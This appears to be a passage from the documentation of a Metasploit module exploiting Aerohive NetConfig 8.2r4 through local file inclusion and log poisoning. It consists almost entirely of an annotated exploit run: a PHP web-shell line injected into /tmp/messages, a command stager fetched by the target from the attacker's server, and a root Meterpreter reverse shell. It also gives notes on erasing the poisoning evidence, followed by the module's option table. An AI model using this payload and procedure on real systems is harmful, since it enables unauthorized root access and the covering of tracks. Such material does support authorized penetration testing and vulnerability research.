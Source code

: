 ```

   Id  Name
   --  ----
   0   Linux


msf6 exploit(unix/webapp/aerohive_netconfig_lfi_log_poison_rce) > run

[*] Started reverse TCP handler on 192.168.1.229:4000
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The target is Aerohive NetConfig version 8.2r4
[*] Attempting to poison the log at /tmp/messages...
[*] Server responded as expected. Continuing...
[*] Using URL: http://0.0.0.0:8080/tCSLFVW4TC
[*] Local IP: http://192.168.1.229:8080/tCSLFVW4TC
[*] Attempting to execute the payload
[!] In case of successful exploitation, the Aerohive NetConfig web application will hang for as long as the spawned shell remains open.
[*] Command Stager progress - 100.00% done (116/116 bytes)
[*] Client 192.168.1.151 (curl/7.50.1) requested /tCSLFVW4TC
[*] Sending payload to 192.168.1.151 (curl/7.50.1)
[*] Sending stage (902096 bytes) to 192.168.1.151
[!] Erasing the log poisoning evidence will require manually editing/removing the line in /tmp/messages that contains the poison command:
   <?php system($_POST['PPv9j']);?>
[!] Please note that any modifications to /tmp/messages, even via sed, will render the target (temporarily) unexploitable. This state can last over an hour.
[!] Deleting /tmp/messages or clearing out the file may break the application.
[*] Meterpreter session 23 opened (192.168.1.229:4000 -> 192.168.1.151:57350 ) at 2021-11-02 16:51:28 +0000
[*] Server stopped.

meterpreter > shell
Process 2637 created.
Channel 1 created.
id
uid=0(root) gid=0(root)
grep 'php system' /tmp/messages
2021-11-02 11:51:26 notice  ah_webui: security: Admin "<<?php system($_POST['PPv9j']);?>>" failed to log in
```

### Aerohive NetConfig 8.2r4 - Linux target - AUTO_CLEAN_LOG true
```
Module options (exploit/unix/webapp/aerohive_netconfig_lfi_log_poison_rce):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   AUTO_CLEAN_LOG  true             yes       Automatically clean the /tmp/messages log upon spawning a shell. WARN
                                              ING! This may render the target unexploitable
   Proxies                          no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS          92.168.1.151     yes       The target host(s), see https://github.com/rapid7/metasploit-framewor
                                              k/wiki/Using-Metasploit
   RPORT           443              yes       The target port (TCP)
   SRVHOST         0.0.0.0          yes       The local host or network interface to listen on. This must be an add
                                              ress on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT         8080             yes       The local port to listen on.
```